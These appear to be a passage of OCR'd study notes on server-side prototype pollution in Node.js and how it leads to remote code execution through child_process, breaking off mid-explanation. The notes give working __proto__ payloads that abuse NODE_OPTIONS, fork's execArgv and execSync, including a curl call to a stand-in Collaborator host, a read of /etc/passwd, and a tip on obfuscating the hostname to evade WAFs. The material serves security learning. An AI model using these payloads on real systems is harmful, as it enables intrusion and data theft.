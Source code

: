 ```sh
There are a number of potential command execution sinks in Node -> in the child_process module -> payload -> Collaborator
NODE_OPTIONS env variable -> define command-line arguments & is a property of env object (we can control it if undefined)
# If Node function to create shell processes accept shell property + malicious NODE_OPTIONS property, you can pollute:
"__proto__": {
    "shell":"node",
    "NODE_OPTIONS":"--inspect=YOUR-COLLABORATOR-ID.oastify.com\"\".oastify\"\".com"
}
# TIP: escaped double-quotes in the hostname aren't strictly necessary. However, obfuscates hostname to bypass WAFs

####### Remote code execution via child_process.fork()
# Methods such as child_process.spawn() and child_process.fork() enable developers to create new Node subprocesses. 
# fork() accepts an options object, one is execArgv property w/ --eval argument (run Javascript such as module load):
"__proto__": {
"execArgv": [
    "--eval=require('<module>')"
]
}
require('child_process').execSync('whoami')
# In addition to fork(), the child_process module contains the execSync() -> runs string as system command
# EXAMPLE:
- Analyze suspicious requests, try different sources such as json spaces
"constructor":{

"prototype":{

"json spaces":10

}

}
- Then confirm RCE on that same request and observe it on Burp Collaborator
"__proto__": {
    "shell":"node",
    "--eval=require('child_process').execSync('curl https://YOUR-COLLABORATOR-ID.oastify.com')"
}
- Finally, craft an exploit to run a system command
"__proto__":{
"execArgv": [

 "--eval=require('child_process').execSync('cat /etc/passwd')"

]

}
- We could need admin privileges or any other process to really run the prototype pollution.

######## Remote code execution via child_process.execSync()
Just like fork(), the execSync() method also accepts options object, which may be pollutable via the prototype chain.
You can still inject system commands into a running child process by polluting both shell and input properties:
- input -> just a string passed to stdin stream and executed as a system command by execSync()
- shell -> declare a specific shell in which they want the command to run -> leave undefined
# By polluting both, we can replace the original command run with our malicious command. However, there are caveats:
```